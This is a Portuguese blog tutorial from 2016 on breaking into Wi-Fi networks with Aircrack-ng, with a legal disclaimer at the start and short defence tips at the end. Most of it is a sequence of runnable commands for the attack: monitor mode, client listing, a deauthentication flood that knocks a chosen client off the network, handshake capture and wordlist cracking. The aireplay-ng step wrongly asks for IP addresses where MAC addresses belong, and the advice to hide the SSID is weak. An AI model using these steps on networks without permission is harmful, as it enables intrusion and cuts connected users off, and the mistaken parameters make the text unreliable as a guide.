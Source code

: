 ```yaml
---
layout: post
title:  "Invasão de Redes Wireless com Aircrack-NG"
date:   2016-04-16
categories: seguranca
---
```


![{{ post.title }}]({{ site.url }}/assets/img_posts/aircrack-ng.png)

### ATENÇÃO!

Esse tutorial deve ser usado apenas para fins educativos em uma rede com devida autorização do proprietário.

Invadir dispositivo alheio, conectado ou não a rede de computadores, mediante violação de segurança com o fim de obter informações sem autorização é crime. No Brasil, pode acarretar em 1 ano de reclusão e multa.

Aproveite este conhecimento para progredir de maneira justa e sem prejudicar outras pessoas.

## Requerimentos

Para a realização deste tutorial será necessário um computador com o Sistema Operacional Debian ou variantes e que a máquina possua placa de rede wireless ou adaptador wi-fi, e acesso _root_.

Também é necessário que você possua uma _wordlist_ disponível em seu ambiente.


### Informação

Wordlists são arquivos que possuem várias palavras frequentemente utilizadas.

Você pode escrever o seu próprio arquivo ou encontrar exemplos através de uma simples busca no Google.

Precisará também de um ponto de acesso wireless, no qual você não esteja conectado com a interface de teste.

Para ter certeza sobre a existência de interfaces wi-fi, faça a verificação:

```sh
iwconfig
```

Se o dispositivo estiver conectado, mas não for listado; inicie a interface:

```sh
ifconfig wlan0 up
```

Veja as redes que estão ao seu alcance:

```sh
iwlist wlan0 scanning
```

Anote o Mac Adress e o Canal da rede alvo, pois precisará deles na sequência.

## Instalação

Para monitorar e capturar pacotes de um cliente da rede, precisaremos do **Aircrack-ng**:

```sh
sudo apt-get update && sudo apt-get install aircrack-ng
```

## Iniciando o Monitoramento

Estando com o aircrack-ng instalado, podemos começar:

Matando processos que podem causar incompatibilidades

```sh
airmon-ng check kill
```

Iniciando o monitoramento

```sh
airmon-ng start wlan0
```

## Listando Clientes

Pegue os dados do seu alvo e insira-os nas opções entre colchetes (apague os colchetes depois), abaixo:

```sh
airodump-ng mon0 --bssid [MAC ADDRESS] --channel [CHANNEL] --write wifi.test
```

Depois disso, o scanner lhe mostrará uma lista com todas as Wokstations (clientes) que estão conectados na rede.

## Capturando Dados

Abra um novo terminal, escolha uma workstation ativa e capture os pacotes dela (ela irá cair durante esse processo):

```sh
aireplay-ng -0 100 -a [GATEWAY IP] -c [WORKSTATION IP] mon0 --ignore-negative-one
```

## Descobrindo a Senha

Através dos dados capturados, tente descobrir a senha:

```sh
aircrack-ng wifi.test-01.cap -w wordlist.txt
```

## Como impedir esse tipo de invasão?

Sempre utilize senhas complexas combinando caracteres especiais, como **!@#$%¨&#038;*()_+§**, e se possível configure como oculto o SSID da rede (embora o Aircrack-ng detectá-la) para que ela não seja listada como um possível alvo de crackers.

## Atualização

Use **wifite** e poupe seu tempo!
